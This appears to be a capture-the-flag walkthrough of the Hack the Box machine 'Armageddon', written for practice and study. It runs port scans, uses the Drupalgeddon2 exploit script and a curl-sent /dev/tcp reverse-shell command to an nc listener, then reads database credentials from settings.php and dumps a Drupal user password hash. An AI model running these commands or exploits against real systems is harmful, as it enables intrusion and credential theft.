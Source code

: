 # Hack the Box - Armageddon

# NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.233 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/15%OT=22%CT=1%CU=37173%PV=Y%DS=2%DC=I%G=Y%TM=6461351
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%
OS:TS=A)SEQ(SP=105%GCD=1%ISR=107%TI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW
OS:7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%
OS:W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CN
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.58 seconds
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.233 -oN services.nmap

Nmap scan report for 10.10.10.233
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

---

## HTTP
  - Homepage
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cb5ace1e-fa12-4cc5-b837-4107afa14893)

  - Registering as a new user failed as e-mail authentication is broken broken.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4abc8d0c-1e80-479a-b0ca-3d6eaa55f28c)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/56f3bf84-4cfa-42ea-b0de-db89db01746d)

---

## HTTP Response Header
```http
HTTP/1.1 200 OK
Date: Sat, 30 Sep 2023 11:35:57 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
Content-Language: en
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
Content-Length: 7440
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
```

---

## Drupal Version
- `changelog.txt`.
```shell
curl -s 10.10.10.233/CHANGELOG.txt | head
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9e732973-d6d1-4287-acdd-47f785645a1f)

---

## Search for Exploit
```shell
root@kali# searchsploit drupal 7.56
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e8217b76-c132-4084-8b46-a44a1c78af1a)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0592413d-3aca-457e-bab1-9404dc5c36e3)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf373420-7ea7-4e73-b86c-8bd1884c4b06)
```shell
root@kali# searchsploit -x php/webapps/44449.rb
```

## Initial Foothold
```shell
root@kali# ruby 44449.rb http://10.10.10.233
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a3f60b5-c3ef-4d41-a291-f752776f758b)

Bash Shell
```shell
root@kali# rlwrap nc -nlvvp 443
```
```shell
root@kali# curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.10/443 0>&1" 'http://10.10.10.233/shell.php'
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/868623ca-76ba-4fd4-bde1-6863c301137f)

`/var/www/html/sites/default/settings.php`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b877cd91-e6e5-4406-8100-828b1a80722f)

```shell
Creds: drupaluser:CQHEy@9M*m23gBVj
```

## MySQL
```shell
bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

```shell
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5bb2555b-8c25-4a61-83b6-cf15216edb4f)

```shell
Creds: brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
